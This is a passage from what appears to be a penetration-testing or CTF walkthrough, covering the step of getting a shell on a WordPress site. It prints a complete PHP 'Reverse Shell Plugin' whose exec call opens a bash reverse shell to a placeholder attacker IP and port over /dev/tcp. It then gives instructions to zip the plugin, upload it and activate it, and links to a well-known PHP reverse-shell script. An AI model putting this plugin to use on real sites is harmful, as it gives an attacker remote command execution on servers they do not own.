 ![img](https://github.com/btxcode/pork/blob/main/assets/2.png)

### Shell

make a plugin to get a shell, you can read about it [here](https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell) or you can use [pentestmonkey reverse shell php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/[ipattacker]/[portattacker] 0>&1'");
?>
```

save with the name you want for example shell.php then archive it into a zip file.
upload the zip file in the plugin menu and activate it.

![img](https://github.com/btxcode/pork/blob/main/assets/3.png)

